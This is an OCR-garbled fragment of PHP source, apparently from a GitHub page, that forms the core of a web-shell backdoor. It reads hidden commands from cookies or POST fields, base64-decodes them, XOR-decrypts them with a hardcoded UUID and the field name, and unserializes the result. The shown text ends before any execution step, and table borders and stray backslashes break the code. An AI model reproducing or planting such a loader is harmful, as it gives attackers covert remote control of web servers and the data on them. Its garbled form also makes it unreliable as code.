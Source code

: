 |  }\                                                                   |
|  return \$xorStr;\                                                    |
| }\                                                                    |
| \                                                                     |
| // Initialize primary variables\                                      |
| \$key = NULL;\                                                        |
| \$value = NULL;\                                                      |
| \                                                                     |
| // Iterate all \$\_COOKIE key =\> value, setting \$value & \$key,     |
| overwriting if multiple\                                              |
| foreach (\$\_COOKIE as \$cKey =\> \$cVal){\                           |
|  \$value = \$cVal;\                                                   |
|  \$key = \$cKey;\                                                     |
| }\                                                                    |
| \                                                                     |
| // If no \$\_COOKIE was present, try all \$\_POST, again overwriting  |
| if multiple\                                                          |
| if (!\$value){\                                                       |
|  foreach (\$\_POST as \$pKey =\> \$pVal){\                            |
|  \$value = \$pVal;\                                                   |
|  \$key = \$pKey;\                                                     |
|  }\                                                                   |
| }\                                                                    |
| \                                                                     |
| /\*\                                                                  |
|  Decode \$payload                                                     |
|                                                                       |
|  1. Base64 decode\                                                    |
|  2. First XOR pass using provided ID\                                 |
|  3. Second XOR pass using provided key name from \$\_COOKIE or        |
| \$\_POST\                                                             |
|  4. Unserialize it\                                                   |
| \*/\                                                                  |
| \$payload = \@base64\_decode(\$value);\                               |
| \$payload = \@repXOR(\$payload,                                       |
| \'d4a8745e-2599-49bc-b7e3-2b194ca49aef\');\                           |
| \$payload = \@repXOR(\$payload, \$key);\                              |